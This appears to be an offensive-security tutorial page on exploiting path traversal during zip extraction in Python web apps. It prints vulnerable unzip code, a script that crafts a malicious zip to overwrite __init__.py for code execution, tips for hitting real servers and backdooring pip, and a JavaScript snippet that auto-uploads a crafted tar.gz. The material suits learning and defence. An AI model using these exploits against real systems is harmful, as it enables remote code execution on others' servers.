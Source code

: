 # Exploiting insecure file extraction

### Python

> Compressed file extraction with insecure code vulnerable to path traversal in Python can result in arbitrary code execution by overwriting \_\_init\_\_.py if flask is running in **debug mo**de.

One of the easiest way to achieve [code execution in PHP](https://www.acunetix.com/websitesecurity/upload-forms-threat/) is by exploiting insecurely written file upload handling logic. If you are able to upload arbitrary PHP file by fooling the file upload logic, you can execute arbitrary PHP code. But when it comes to modern web frameworks written in Go, Node.js, Python, Ruby etc. it's a different story. Even if you managed to upload a .py or .js file to the server, requesting these resource via a URL often won't return anything as the route or URL is not exposed by the application. Even if you are able to access the resource by URL, it won't trigger any code execution as it's treated as a static file and just returns plain text source code. This post will explain how to get code execution in one such scenario in Python when you are able to upload compressed files to the server.

Application security rule of thumb is never to trust user input. Don't just limit that concept to RAW HTTP request object that include query params, post body, files, headers etc. Carefully crafted compressed files that looks legit upon extraction can do bad things if it's handled by insecure code. This post is inspired from a [Security Bug](https://github.com/MobSF/Mobile-Security-Framework-MobSF/issues/358) reported to MobSF and tries to cover the technical aspects of the vulnerability and exploitation. Let's take a look into the insecure code.

```
def unzip(zip_file, extraction_path):
    """
    code to unzip files
    """
    print "[INFO] Unzipping"
    try:
        files = [.gitbook/assets/1663788014.png]
        with zipfile.ZipFile(zip_file, "r") as z:
            for fileinfo in z.infolist():
                filename = fileinfo.filename
                dat = z.open(filename, "r")
                files.append(filename)
                outfile = os.path.join(extraction_path, filename)
                if not os.path.exists(os.path.dirname(outfile)):
                    try:
                        os.makedirs(os.path.dirname(outfile))
                    except OSError as exc:  # Guard against race condition
                        if exc.errno != errno.EEXIST:
                            print "\n[WARN] OS Error: Race Condition"
                if not outfile.endswith("/"):
                    with io.open(outfile, mode='wb') as f:
                        f.write(dat.read())
                dat.close()
        return files
    except Exception as e:
        print "[ERROR] Unzipping Error" + str(e)
```

This is a fairly simple python code to extract a zip file and return the list of files in the archive. The zip file comeS to the server after a file upload operation and is send to `unzip()` for extraction. If you look at this line

```
outfile = os.path.join(extraction_path, filename)
```

You can see that `filename` variable is controlled by the user. If we set the value of `filename` to `../../foo.py`

\>>> import os

\>>> extraction\_path = "/home/ajin/webapp/uploads/"

\>>> filename = "../../foo.py"

\>>> outfile = os.path.join(extraction\_path, filename)

\>>> outfile

'/home/ajin/webapp/uploads/../../foo.py'

\>>> open(outfile, "w").write("print 'test'")

\>>> open("/home/ajin/foo.py", "r").read()

"print 'test'"

By abusing path traversal, we are able to write the file to arbitrary location. In this case into `/home/ajin` instead of `/home/ajin/webapp/uploads/`

### Arbitrary Code Execution

We are able to write python code to arbitrary location. Now let's see how we can execute it.\
Consider this sample [vulnerable application](https://github.com/ajinabraham/bad\_python\_extract) written in Python Flask. We will make use of `__init__.py` in Python to achieve code execution. The [docs](https://docs.python.org/2.7/tutorial/modules.html#packages) says

> The `__init__.py` files are required to make Python treat the directories as containing packages; this is done to prevent directories with a common name, such as `string`, from unintentionally hiding valid modules that occur later on the module search path. In the simplest case, `__init__.py` can just be an empty file, but it can also execute initialization code for the package or set the `__all__` variable, described later.

So if we can overwrite `__init__.py` file with arbitrary Python code inside a directory of the web application that act as a package, then we can achieve code execution if that package is imported by the application. For our code to execute, a server restart is required in most case. But in this example we are running a Flask server with _debug_ set to _True_ which means every time a Python file is changed, the server will do a restart.

### Crafting the Payload

The vulnerable web app has a directory called [config](https://github.com/ajinabraham/bad\_python\_extract/tree/master/config). There is already `__init__.py` and `settings.py` in this directory. The main server file `server.py` imports `settings.py` from `config` directory, which means if we can write code into `config/__init__.py`, we will be able to achieve code execution. We can craft the payload using the following code:

```
import zipfile
z_info = zipfile.ZipInfo(r"../config/__init__.py")
z_file = zipfile.ZipFile("/home/ajin/Desktop/bad.zip", mode="w")
z_file.writestr(z_info, "print 'test'")
z_info.external_attr = 0777 << 16L
z_file.close()
```

If you look into the [file upload code](https://github.com/ajinabraham/bad\_python\_extract/blob/master/server.py#L62-L63), you can see that the file uploads are extracted into `uploads` directory. We can create a malicious filename with [zipfile.ZipInfo()](https://docs.python.org/2/library/zipfile.html#zipfile.ZipInfo). Here we give the filename as `../config/__init__.py` to overwrite `__init__.py` inside `config` directory. `z_info.external_attr = 0777 << 16L` will set the file permission to read and write by everyone. Let's create a zip file and upload it to the vulnerable web app.

![.gitbook/assets/1663788014.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788014/pmd4iqw6vyy287ajfjk7.png)

We can see that the Flask app reloads and the server console prints **test**. Our code execution is successful.

### Exploiting Realworld Applications

In this example, the arbitrary code executed instantly as the Flask server was running on debug mode. This may not be the case elsewhere. You might need to wait until the server is restarted. Another problem is that we don't always know the package directory like `config` in this case. It's easy with an open source project where you have access to the source code. For closed source applications, you can take a good guess for package directories like `conf, config, settings, utils, urls, view, tests, scripts, controllers, modules, models, admin, login` etc. These are some of the common package directories found in some Python web frameworks like Django, Flask, Pyramid, Tornado, CherryPy, web2py etc.

Alternatively, let's say the web application is running inside Ubuntu Linux. The installed and inbuilt Python packages will be available under: `/home/<user>/.local/lib/python2.7/site-packages/pip`. Assuming that the app is running under user directory, you can craft a filename like `../../.local/lib/python2.7/site-packages/pip/__init__.py`. Upon extraction, this creates `__init__.py` file inside `pip` directory. If the app is using virtualenv and let's say the virtualenv directory is `venv`, you can use a filename like `../venv/lib/python2.7/site-packages/pip/__init__.py`. The will brick pip, but next time someone run pip command in the server, your code will execute!

### Arbitrary File reading

1. Directory traversal (also known as file path traversal)
2. Un lien symbolique

### XSS

```
<script>
    function base64toBlob(base64Data, contentType) {
      contentType = contentType || "";
      var sliceSize = 1024;
      var byteCharacters = atob(base64Data);
      var bytesLength = byteCharacters.length;
      var slicesCount = Math.ceil(bytesLength / sliceSize);
      var byteArrays = new Array(slicesCount);

      for (
        var sliceIndex = 0;
        sliceIndex < slicesCount;
        ++sliceIndex
      ) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
          bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
      }
      return new Blob(byteArrays, { type: contentType });
    }

    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);

    //File contents encoded to Base64
    var b64file =  "H4sICCzHg2IC/3BvYy50YXIA7c9BCoMwEIXhHCUnSGbiBM8TBIsgrbQp9PhGl9KNlu7+jxneboYXQgzfpizLtvM0lDo97vFVWw5xnMst1E91Z0jT57xnc0wRVaeWTHrrLJuTpKqd8+nau3PerdnT+5/vHMsBAAAAAAAAAAAAAAAAAPBHKwtm0PwAKAAA"

    //Create a Blob object
    var content_type = "application/x-gtar-compressed";
    var blob = base64toBlob(b64file, content_type);

    //Append Blob to FormData
    var formData = new FormData();
    formData.append("file", blob, "file.tar.gz");

    //Send FormData to the server via XMLHttpRequest
    var url = "http://localhost:1337/api/firmware/upload";
    var request = new XMLHttpRequest();
    request.open("POST", url);
    request.send(formData);
  </script>
  
  // cat tar.gzip | base64 - w0
```
